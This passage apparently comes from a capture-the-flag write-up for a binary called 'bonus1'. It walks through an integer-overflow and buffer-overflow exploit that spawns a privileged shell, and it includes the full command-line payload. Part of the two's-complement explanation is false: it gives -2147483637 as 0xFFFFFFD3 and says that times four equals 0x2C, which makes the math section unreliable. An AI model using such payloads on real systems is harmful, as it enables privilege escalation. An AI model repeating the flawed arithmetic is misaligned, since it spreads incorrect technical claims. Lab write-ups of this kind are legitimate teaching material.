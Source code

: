 ### Step 3: Payload Construction
```bash
# Argument structure:
# argv[1]: "-2147483637"  (bypass check, trigger overflow)
# argv[2]: "A"*40 + "FLOW"  (fill buffer + overwrite n)

./bonus1 -2147483637 $(python -c 'print "A" * 40 + "FLOW"')
```

## Attack Flow Analysis

### Execution Sequence
1. **Input Parsing**: `n = atoi("-2147483637")` → `n = -2147483637`
2. **Validation Check**: `n <= 9` → TRUE (signed comparison allows negative)
3. **Size Calculation**: `n * 4 = -2147483637 * 4 = 44` (integer overflow)
4. **Memory Copy**: `memcpy(buffer, argv[2], 44)` → copies 44 bytes
5. **Buffer Overflow**: 
   - Bytes 0-39: Fill `buffer[40]` with 'A's
   - Bytes 40-43: Overwrite `n` with "FLOW" (0x574f4c46)
6. **Condition Check**: `n == 0x574f4c46` → TRUE
7. **Shell Execution**: `execl("/bin/sh", "sh", NULL)` → spawn privileged shell

### Mathematical Proof
```c
// 32-bit signed integer range: -2,147,483,648 to 2,147,483,647
int n = -2147483637;

// Multiplication in 32-bit arithmetic:
// -2147483637 * 4 = -8589934548
// Truncated to 32-bit: -8589934548 & 0xFFFFFFFF = 44

// Verification:
-2147483637 * 4 = 0xFFFFFFD3 * 4 = 0x0000002C = 44
```

## Integer Overflow Mechanics

### Two's Complement Arithmetic
```
Original value: -2147483637
Binary (32-bit): 11111111 11111111 11111111 11010011
Multiply by 4:   <<<< shift left 2 bits >>>>
Result:          00000000 00000000 00000000 00101100 = 44
```

### Why memcpy() Accepts This Size
- `memcpy()` expects `size_t` parameter (unsigned)
- Negative `int` converted to `size_t` becomes large positive
- However, due to overflow math, result is exactly 44
